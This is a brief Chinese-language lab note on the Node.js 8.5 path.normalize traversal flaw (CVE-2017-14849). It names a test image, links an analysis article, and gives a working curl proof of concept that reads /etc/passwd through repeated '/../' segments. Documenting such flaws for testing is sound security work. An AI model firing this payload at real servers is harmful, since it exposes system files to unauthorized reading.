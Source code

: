 ## nodejs 8.5 normalize 路径解析错误漏洞

测试镜像

* src/node-express/4.13.1/

参考文章

* [Node.js CVE-2017-14849 漏洞分析](https://security.tencent.com/index.php/blog/msg/121)

Poc - 保证两边的 `/../` 数量一样

```
curl 127.0.0.1/js/../../../../../../a/../../../../../../etc/passwd
```


